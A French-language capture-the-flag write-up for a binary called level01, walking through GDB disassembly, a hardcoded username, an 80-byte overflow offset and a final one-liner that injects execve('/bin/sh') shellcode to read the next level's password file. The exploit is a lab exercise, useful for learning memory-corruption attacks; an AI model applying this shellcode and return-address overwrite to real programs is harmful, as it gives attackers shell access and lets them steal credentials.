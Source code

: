 On va lancer GDB pour analyser les isttructions assembleur avec la commande:
"gdb ./level01"

Pour commencer, noous allons prendre connaissance des eventuelles fonctions autres que main dans ce programme avec:
"info functions"

On tombe en plus des fonctions utilisees deppuis des librairies par defaut, sur les fonctions personnalisees "verify_user_name" et "verify_user_pass"

"disas verify_user_name"
va nous permettre de voir les instructions de la premiere fonction.
On va imprimer les valeurs des variables presentes unes a unes dans cette fonction avec la commande print, pour verifier leur contenu.

"print (char * ) 0x80486a8 "
va nous donnner ce qui semble etre le nom d'utilisateur attendu, soit "dat_wil".

"disas verify_user_pass"
va nous permettre de voir les instructions de la seconde fonction.
On va egalement imprimer les valeurs des variables presentes unes a unes dans cette fonction avec la commande print, pour verifier leur contenu.

"print (char * ) 0x80486b0"
va nous donnner ce qui semble etre le mot de passe attendu, soit "admin".

Le nom d'utilisateur fonctionne, pas le mot de passe... C'est un probleme.

Par ailleurs, le nom d'utilisateur doit compter uniquement "dat_wil" pour les 7 premiers caracteres, mais ecrire de la donnee apres ne semble pas poser de probleme:
On peut ecrire un shellcode grace au nom d'utilisateur, potentiellement.

En regardant a nouveau dans "info functions", on se rend compte que la fonction system n'est pas appelle, ce qui signifie que l'on va devoir utiliser un shellcode
pour l'appeller et lire notre fichier .pass. Nous allons donc devoir certainement proceder a un buffer overflow.

On va alors utiliser la commande suivante pour ecrire notre identifiant, puis l'inserer, et enfin tester un mot de passe pour determiner le nombre de caractere 
necessaire pour faire seglfault notre programme:

"(python -c "print 'dat_wil' + '\n' + 'A' * 80") | ./level01"

En tapant un mot de passe long lors de l'utilisation du programme level01, on se rend compte que celui segfault effectivement, plus precisement a partir de 80 caracteres.
On a alors son offset, ce qui nous permettra d'ecrire un shellcode a partir de la.

Egalement, en regardant avec la commande:

"info variables"

On se rend compte que la variable "a_user_name" dont l'adresse est "0x0804a040", nous est familiere: elle stocke notre nom d'utilisateur dont l'adresse est "0x80486a8".

On peut alors executer notre shellcode avec la commande qui suit, qui se decompose de la maniere suivante:

- On entre notre nom d'utilisateur attendu et un shellcode qui va executer execve("/bin/sh") dans notre premier champ.
- On decale notre l'entree de notre champ pass par la taille de notre offset (80), afin de commencer a lire dans la memoire.
- on appelle notre adresse memoire de nom d'utilisateur decale de 7 caracteres afin d'executer directement le shellcode.
- On utilise un cat pour que notre shellcode puisse attendre et executer nos instructions futures.

"(python -c "print 'dat_wil' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\n' + 'a' * 80 + '\x47\xa0\x04\x08'"; cat) | ./level01"

"whoami"
"cd ../level02"
"cat .pass"

